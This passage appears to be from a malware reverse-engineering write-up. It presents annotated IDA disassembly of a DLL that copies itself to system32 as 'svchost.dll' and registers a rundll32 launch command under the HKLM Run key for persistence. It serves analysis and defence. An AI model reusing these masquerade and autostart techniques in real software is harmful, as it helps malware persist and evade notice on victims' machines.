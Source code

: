 If registry key did not exist, we will continue.

{{< codecaption lang="nasm" title="CopyFile" >}}

.text:1000A733 mov     [ebp+lpNewFileName], offset aCWindowsSystem ; "c:\\windows\\system32\\svchost.dll"
.text:1000A73D mov     [ebp+var_124], offset aCWindowsSyst_0 ; "c:\windows\system32\rundll32.exe c:\windows\system32\svchost.dll"
.text:1000A747 push    0               ; bFailIfExists - 0 means overwrite if file already exists
.text:1000A749 mov     edx, [ebp+lpNewFileName]
.text:1000A74F push    edx             ; lpNewFileName ; "c:\\windows\\system32\\svchost.dll"
.text:1000A750 lea     eax, [ebp+Filename]
.text:1000A756 push    eax             ; lpExistingFileName - Dll name from GetModuleFileName
.text:1000A757 call    ds:CopyFileA
.text:1000A75D mov     ecx, [ebp+var_124]   ; From line 2
.text:1000A763 push    ecx
.text:1000A764 call    sub_1000A610
.text:1000A769 add     esp, 4
.text:1000A76C mov     [ebp+var_114], eax

{{< /codecaption >}}

We have already seen the strings being loaded in lines 1 and 2. Then ``CopyFile`` is called to copy itself to ``c:\\windows\\system32\\svchost.dll``.

{{< codecaption lang="nasm" title="sub_1000A610" >}}

.text:1000A610 push    ebp
.text:1000A611 mov     ebp, esp
.text:1000A613 sub     esp, 0Ch
.text:1000A616 lea     eax, [ebp+phkResult]
.text:1000A619 push    eax             ; phkResult
.text:1000A61A push    offset aSoftwareMicr_0 ; "SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
.text:1000A61F push    80000002h       ; hKey   "HKEY_LOCAL_MACHINE"
.text:1000A624 call    ds:RegCreateKeyA
.text:1000A62A mov     [ebp+var_C], eax
.text:1000A62D cmp     [ebp+var_C], 0
.text:1000A631 jnz     short loc_1000A663

; Continue if RegCreateKey was successful
.text:1000A633 mov     ecx, [ebp+lpData]  ; "c:\windows\system32\rundll32.exe c:\windows\system32\svchost.dll"
.text:1000A636 push    ecx             ; char *
.text:1000A637 call    _strlen
.text:1000A63C add     esp, 4
.text:1000A63F push    eax             ; cbData - strlen(lpData)
.text:1000A640 mov     edx, [ebp+lpData]
.text:1000A643 push    edx             ; lpData - ; "c:\windows\system32\rundll32.exe c:\windows\system32\svchost.dll"
.text:1000A644 push    1               ; dwType
.text:1000A646 push    0               ; Reserved
.text:1000A648 push    offset aSvchost_0 ; "svchost"
.text:1000A64D mov     eax, [ebp+phkResult]
.text:1000A650 push    eax             ; hKey
.text:1000A651 call    ds:RegSetValueExA
.text:1000A657 mov     [ebp+var_4], 0
.text:1000A65E mov     eax, [ebp+var_4]
.text:1000A661 jmp     short loc_1000A673
